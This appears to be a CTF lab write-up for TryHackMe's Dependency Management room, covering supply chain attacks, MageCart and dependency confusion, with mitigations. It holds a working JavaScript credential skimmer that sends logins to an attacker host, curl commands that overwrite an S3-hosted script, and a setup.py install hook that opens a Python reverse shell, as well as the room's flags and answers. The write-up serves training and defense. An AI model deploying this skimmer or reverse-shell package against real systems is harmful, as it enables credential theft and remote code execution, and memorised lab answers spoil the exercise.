



---
layout: post
title: "Dependency Management - Supply Chain Attacks, S3 Skimmers, and Python Dependency Confusion"
date: 2026-05-24T10:00:00+03:00
categories:
  - TryHackMe
  - DevSecOps
tags:
  - tryhackme
  - devsecops
  - dependency-management
  - supply-chain
  - dependency-confusion
  - python
  - pip
  - pypi
  - artifactory
author: muhammed
description: Comprehensive walkthrough of TryHackMe Dependency Management covering the dependency iceberg, MageCart S3 bucket tampering, credential skimmers, Alex Birsan dependency confusion mechanics, and malicious setuptools RCE.
toc: true
pin: false
math: false
mermaid: true
image:
---

## Overview

[Dependency Management](https://tryhackme.com/room/dependencymanagement) kicks off Section 3 (Security in the Pipeline) in TryHackMe's DevSecOps Learning Path. In modern application engineering, developers rarely author systems from raw primitives. Instead, third-party libraries and Software Development Kits (SDKs) handle foundational capabilities like cryptography, networking, data serialization, and UI rendering.

While dependencies dramatically accelerate time-to-market, they invert the application attack surface. An organization's proprietary code typically accounts for less than 1% of the executed instructions, with third-party dependencies comprising the remaining 99%.

This walkthrough explores the mechanics of software supply chain security, analyzing external vs internal dependencies, auditing vulnerabilities like Log4Shell, weaponizing a world-writeable S3 bucket for a MageCart-style credential harvesting attack, and executing an end-to-end **Dependency Confusion** exploit against an automated Docker build pipeline.

---

## 1. The Dependency Iceberg

When an engineer writes a simple Python snippet using a standard data science library:

```python
#!/usr/bin/python3
import numpy
x = numpy.array([1, 2, 3, 4, 5])
y = numpy.array([6])
print(x * y)
```

The author wrote four lines of code. However, executing `import numpy` triggers the package's `__init__.py` file, loading over 400 lines of setup code and approximately 30 transitive sub-dependencies. With an average of 250 lines per sub-dependency, those four lines execute over 8,000 lines of external code.



### Why Organizations Manage Dependencies
1. **Operational Support:** Maintaining an inventory of third-party code for debugging and lifecycle management.
2. **Version Locking:** Pinning versions to prevent breaking changes and unpredictable runtime regressions.
3. **Optimized Build Times:** Caching pre-compiled libraries in golden container images to accelerate CI/CD jobs.
4. **Developer Onboarding:** Standardizing developer workspaces with reproducible dependency definitions.
5. **Vulnerability Management:** Monitoring components for Common Vulnerabilities and Exposures (CVEs) and patching proactively.

Enterprise teams rely on unified artifact repositories like **JFrog Artifactory** or **Azure Artifacts** to proxy public repositories and host internal packages centrally.

---

## 2. Internal vs External Dependencies

Dependencies are classified primarily by their provenance and maintenance ownership:



### Comparative Breakdown

| Characteristic | External Dependencies | Internal Dependencies |
|---|---|---|
| **Origin** | Public registries (PyPI, npm, NuGet) or vendor SDKs | Developed and hosted within the organization |
| **Maintenance** | Third-party open-source maintainers or vendors | Internal software engineering teams |
| **Common Use Cases** | Frameworks, utility libraries (jQuery, NumPy, Express) | Enterprise auth modules, data parsers, shared connectors |
| **Primary Threat** | Public CVEs (Log4Shell), registry compromise, MageCart | Abandoned code, unpatched vulnerabilities, dependency confusion |
| **Storage Solution** | Public package registries, external CDNs | Internal registries (Artifactory, private PyPI) |

---

## 3. Securing External Dependencies & Supply Chain Attacks

External dependencies introduce inherited risk. If a popular package contains a flaw, that flaw is publicly indexed in the National Vulnerability Database (NVD) with an assigned CVE identifier, notifying adversaries worldwide.

### The Blast Radius of Log4Shell
In late 2021, CVE-2021-44228 (**Log4Shell**) was identified in Apache Log4j, a Java logging utility used ubiquitous throughout enterprise software. Because Log4j executed arbitrary code via JNDI lookup strings (`${jndi:ldap://...}`), millions of commercial products, cloud services, and internal applications became remotely exploitable overnight. The CISA affected database contained thousands of products organized alphabetically.

### MageCart Supply Chain Model
When applications harden their perimeter, attackers shift focus to upstream suppliers. The **MageCart** consortium famously pioneered supply chain credential skimmers:
- Compromised British Airways' online payment infrastructure, stealing credit cards from 380,000 customers and resulting in a £230 million GDPR regulatory penalty.
- Injected JavaScript skimmers into thousands of e-commerce checkout portals.
- Compromised more than 10,000 Amazon S3 buckets hosting third-party JavaScript libraries.

---

## 4. Lab Walkthrough 1: Exploiting World-Writeable S3 CDN (Task 4)

In Task 4, we simulate an external supply chain attack against an application hosting its shared authentication script on an Amazon S3 bucket.

### Step 1: Mapping the Supply Chain

After mapping `MACHINE_IP cdn.tryhackme.loc` in `/etc/hosts`, we load `http://MACHINE_IP:8000/`. Inspecting the source code reveals an external JavaScript dependency loaded from:

```html
<script src="http://cdn.tryhackme.loc:9444/libraries/auth.js"></script>
```

Navigating to `http://cdn.tryhackme.loc:9444/libraries` reveals an S3 bucket XML listing:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
```

### Step 2: Testing Write Permissions

We test whether the S3 bucket is configured with world-writeable permissions using a raw HTTP PUT request:

```bash
curl -X PUT http://cdn.tryhackme.loc:9444/libraries/test.js -d "Testing write permissions"
```

The server returns `HTTP 200 OK`, and `test.js` is downloadable. The bucket is completely unprotected.

### Step 3: Injecting the Credential Skimmer

We download the authentic `auth.js` library and modify it to extract the victim's credentials upon form submission, transmitting them via an asynchronous XMLHttpRequest (XHR) to our attack machine before allowing the login button click to proceed:

```javascript
// Shared authentication library with embedded credential skimmer
var input = document.getElementById('txtPassword');
input.addEventListener("keypress", function(event) {
    if (event.key == "Enter") {
        event.preventDefault();
        try {
            const oReq = new XMLHttpRequest();
            var user = document.getElementById('txtUsername').value;
            var pass = document.getElementById('txtPassword').value;
            oReq.open("GET", "http://ATTACKBOX_IP:7070/item?user=" + user + "&pass=" + pass);
            oReq.send();
        } catch(err) {
            console.log(err);
        }
        function sleep(time) {
            return new Promise((resolve) => setTimeout(resolve, time));
        }
        sleep(5000).then(() => {
            document.getElementById("loginSubmit").click();
        });
    }
});
```

### Step 4: Overwriting the Dependency and Harvesting Credentials

We upload the modified `auth.js` to the S3 bucket:

```bash
curl http://cdn.tryhackme.loc:9444/libraries/auth.js --upload-file auth.js
```

Next, we start a Python web listener on port 7070:

```bash
python3 -m http.server 7070
```

Within a few minutes, an automated user logs into the application, triggering the skimmer callback:

```text
10.10.62.64 - - [10/Aug/2022 10:59:28] "GET /item?user=admin&pass=supersecretpassword12345@ HTTP/1.1" 404 -
```

Using the stolen credentials (`admin` / `supersecretpassword12345@`) to authenticate on `http://MACHINE_IP:8000/` displays the Task 4 flag:

```text
THM{Supply.Chain.Attacks.Are.Super.Powerful}
```

### Supply Chain Mitigation: Subresource Integrity (SRI)
To defeat modified CDN scripts, browsers support **Subresource Integrity (SRI)**. By adding a cryptographic base64 hash to the script tag, the browser blocks execution if the remote file hash does not match:

```html
<script 
  src="http://cdn.tryhackme.loc:9444/libraries/auth.js" 
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC" 
  crossorigin="anonymous">
</script>
```

---

## 5. Theory of Dependency Confusion

Discovered by security researcher **Alex Birsan** in 2021, **Dependency Confusion** (also known as a substitution attack) targets package managers configured to fetch packages from multiple repositories.



### The Pip Mechanism

When Python's package manager runs with `--extra-index-url`:

```bash
pip install datadbconnect --extra-index-url https://internal-pypi.company.com/
```

Pip queries **both** the internal registry and the public PyPI repository. Instead of giving precedence to the private repository, pip aggregates all candidates and selects the candidate with the highest semantic version number.

If an attacker identifies the name of an internal package (via public forum posts, client-side manifests, or leaked `package.json` files), they can publish a dummy package with the identical name to public PyPI with version `9000.0.0`. During the next automated build, pip pulls the public package, executing the attacker's installation code.

---

## 6. Lab Walkthrough 2: Exploiting Dependency Confusion (Task 7)

In Task 7, we exploit an automated Docker build pipeline rebuilding an internal API every 5 minutes.

### Step 1: Enumerating the Internal Package Name

A developer posted an inquiry on an open technical forum:

> *"Hi all, how would I upload a pip package to our internal Pypi server? I know I would use the following to upload it externally: `twine upload dist/datadbconnect-0.0.2.tar.gz`"*

The leaked internal package name is **`datadbconnect`**, currently at version `0.0.2`.

### Step 2: Weaponizing `setup.py` with an Installer Hook

Python's `setuptools` supports custom installation commands via `cmdclass`. By subclassing `setuptools.command.install`, we can execute shell code during the package installation step before the application even attempts to import the library:

We construct the standard package directory layout:

```text
datadbconnect/
  ├── datadbconnect/
  │     ├── __init__.py
  │     └── main.py
  └── setup.py
```

`main.py` contains placeholder code:

```python
#!/usr/bin/python3
def main():
    print("Dataset Connection Active")

if __name__ == "__main__":
    main()
```

`setup.py` hooks the post-installation command to execute a Python reverse shell directed at our AttackBox listener (`10.50.2.3:8080`), declaring version `v9000.0.2`:

```python
from setuptools import find_packages, setup
from setuptools.command.install import install
import os

VERSION = 'v9000.0.2'

class PostInstallCommand(install):
    def run(self):
        install.run(self)
        print("Executing post-installation payload...")
        os.system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.50.2.3",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')

setup(
    name='datadbconnect',
    url='https://github.com/labs/datadbconnect/',
    download_url=f'https://github.com/labs/datadbconnect/archive/{VERSION}.tar.gz',
    author='Tinus Green',
    author_email='tinus@notmyrealemail.com',
    version=VERSION,
    packages=find_packages(),
    include_package_data=True,
    license='MIT',
    description='Dataset Connection Package',
    cmdclass={
        'install': PostInstallCommand
    },
)
```

### Step 3: Packaging and Publishing to the External Repository

We package our malicious library into a source distribution (`sdist`):

```bash
python3 setup.py sdist
```

We upload the tarball to the simulated external PyPI repository running on port 8080:

```bash
twine upload dist/datadbconnect-9000.0.2.tar.gz --repository-url http://external.pypi-server.loc:8080
```

### Step 4: Intercepting the Build Pipeline Reverse Shell

We launch a netcat listener on our attack machine:

```bash
nc -lvp 8080
```

Inside the target environment, the build server runs:

```dockerfile
RUN pip3 install datadbconnect --no-cache-dir --trusted-host internal.pypi-server.com --extra-index-url "http://internal.pypi-server:8081/simple/"
```

Because pip queries both internal and external feeds, it discovers `v0.0.2` on the internal repository and `v9000.0.2` on the external repository. Pip resolves version 9000.0.2, downloads the archive, and executes our `PostInstallCommand`.

Our netcat listener catches the root shell:

```text
Connection received on localhost 50098
# whoami
root
# cat /root/flag.txt
THM{RCE.Through.Dependency.Confusion}
```

The Task 7 flag is:

```text
THM{RCE.Through.Dependency.Confusion}
```

---

## 7. Hardening Against Dependency Attacks

Mitigating dependency risks requires structural boundaries rather than relying on version numbers:

1. **Use Single Private Feeds with Upstream Proxying:**
   Configure pip using `--index-url` pointing exclusively to an internal artifact manager (e.g., JFrog Artifactory). Never use `--extra-index-url` pointing to public registries in parallel. The private manager should mediate all external package requests.
2. **Namespace Scoping:**
   Prefix all internal packages with organizational scopes (e.g., `@company/datadbconnect` in npm).
3. **Public Namespace Squatting / Registration:**
   Register the names of internal packages on public repositories (PyPI, npm) with empty placeholder releases to prevent unauthorized third parties from claiming them.
4. **Client-Side Hash Verification:**
   Generate lockfiles (`Pipfile.lock`, `package-lock.json`) specifying exact SHA-256 hashes for every dependency and transitive library.

---

## 8. Question, Answer, and Flag Summary

| Task # | Task Title | Question / Challenge | Answer / Flag |
|---|---|---|---|
| **Task 1** | Introduction | I'm ready to learn about dependency management. | *No answer needed* |
| **Task 2** | What are dependencies? | What do we call the libraries and SDKs that are imported into our application? | `dependencies` |
| **Task 3** | Internal vs External | Would an authentication library that we created be considered an internal or external dependency? | `Internal` |
| **Task 3** | Internal vs External | Would JQuery be considered an internal or external dependency? | `External` |
| **Task 4** | Securing External Dependencies | Which Advance Persistent Threat group is notorious for their supply chain attacks? | `MageCart` |
| **Task 4** | Securing External Dependencies | What is the password of the intercepted credentials? | `supersecretpassword12345@` |
| **Task 4** | Securing External Dependencies | What is the value of the flag you receive on the website after authenticating? | `THM{Supply.Chain.Attacks.Are.Super.Powerful}` |
| **Task 5** | Securing Internal Dependencies | What do we call a dependency that we have created ourselves and are responsible for maintaining? | `Internal dependency` |
| **Task 6** | Theory of a Dependency Confusion | What is the name of a common supply chain attack that relies on users mistyping names of packages? | `Typosquatting` |
| **Task 6** | Theory of a Dependency Confusion | Dependency confusion relies on a race condition of what of a package? | `version` |
| **Task 7** | Practical Exploitation of Dependency Confusion | What is the name of the attack that can be launched to create a race condition between internal and external dependencies? | `Dependency Confusion` |
| **Task 7** | Practical Exploitation of Dependency Confusion | What is the flag's value that is stored in the /root/ directory on the docker container where you get remote code execution? | `THM{RCE.Through.Dependency.Confusion}` |
| **Task 8** | Conclusion | I understand that security should be taken seriously for dependencies and dependency management. | *No answer needed* |

---

## You can find me online at:


- **GitHub:** [Mhdomer](https://github.com/Mhdomer)
- **LinkedIn:** [mhd3omar](https://www.linkedin.com/in/mhd3omar/)
- **Tryhackme:** [nonlouy](https://tryhackme.com/p/nonlouy)
